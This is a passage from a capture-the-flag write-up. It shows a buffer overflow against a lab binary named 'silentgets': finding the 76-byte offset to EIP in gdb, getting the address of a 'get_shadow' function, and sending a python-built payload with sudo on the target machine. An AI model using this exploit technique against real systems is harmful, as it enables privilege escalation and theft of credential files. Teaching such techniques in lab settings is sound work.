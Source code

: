 First, we create a **pattern** to find the **offset** and run the script, providing this pattern as input.

> 📝**NOTE**: In a **Buffer Overflow**, the **offset** is the **number of bytes** needed to reach the return address, which in x86 corresponds to the **EIP**. Overwriting it allows **controlling where the program jumps** when the function ends.

![35](/images/writeups/silentdev/35.png)

```
r <<< 'PATTERN'
```

![36](/images/writeups/silentdev/36.png)

Now we can calculate **how many characters** are needed to reach the **EIP** with this command:

```
pattern offset $eip
```

![37](/images/writeups/silentdev/37.png)

We can verify it like this to confirm the **offset** is actually **76**:

```
r <<< $(python3 -c 'print("A"*76 + "B"*4)')
```

![38](/images/writeups/silentdev/38.png)

It is indeed **76**. Next, we need the **memory address** of the `get_shadow` **function** we found earlier in **Ghidra**.

```
p get_shadow
```

![39](/images/writeups/silentdev/39.png)

We must write the address in **little-endian** (for example, `0x080484b6` as `\xb6\x84\x04\x08`), since systems store multi-byte values in that order for the function to execute correctly.

In our case, it will be:

```
\x05\x99\x04\x08
```
<h6>We start converting from the end to the beginning.</h6>

Now we have everything. Instead of `BBBB`, we use `\x05\x99\x04\x08`. The best way to execute it is:

```
./silentgets <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x05\x99\x04\x08")')
```

We will run it directly on the **target machine**, using **sudo** and the full path to the binary.
